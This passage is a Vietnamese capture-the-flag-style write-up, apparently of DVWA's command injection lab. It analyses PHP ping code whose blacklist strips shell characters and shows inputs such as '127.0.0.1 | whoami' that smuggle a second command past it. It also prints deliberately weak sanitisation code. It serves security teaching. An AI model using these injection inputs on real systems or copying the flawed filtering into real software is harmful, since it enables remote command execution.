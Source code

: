 Đoạn mã PHP trên có chức năng tương tự như đoạn mã trước, nhưng có một số điểm khác biệt:

- Đoạn mã này cũng kiểm tra xem form đã được submit hay chưa bằng cách kiểm tra nút có tên 'Submit' có được nhấn hay không.
- Sau khi nhận đầu vào từ trường 'ip' trong form, đoạn mã này không kiểm tra mã thông báo chống CSRF như trong đoạn mã trước.
- Thay vào đó, đoạn mã này xây dựng một danh sách đen (blacklist) các chuỗi cần loại bỏ khỏi đầu vào. Trong trường hợp này, các ký tự '&&' và ';' được loại bỏ.
- Sau đó, đoạn mã này loại bỏ bất kỳ ký tự nào trong danh sách đen khỏi đầu vào bằng cách sử dụng hàm str_replace().
- Tiếp theo, nó xác định hệ điều hành đang chạy và thực thi lệnh ping tới địa chỉ IP đã nhập.
- Kết quả của lệnh ping được hiển thị cho người dùng.

### Khai thác

- mình thử khai thác như low level nhưng chương trình đã phát hiện command và chặn

![image](https://hackmd.io/_uploads/HJ-DdN-gA.png)

- tiếp theo mình thử tách 2 câu lệnh với các ký tự không có trong blacklist và thành công

```bash
127.0.0.1 | whoami
```

![image](https://hackmd.io/_uploads/Sydc_4-eA.png)

```bash
127.0.0.1 & whoami
```

![image](https://hackmd.io/_uploads/SkL0dEWg0.png)

và tiếp theo chúng ta có thể RCE tương tự như low level

## HIGH LEVEL

### Phân tích

- đọc source code mình được:

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
```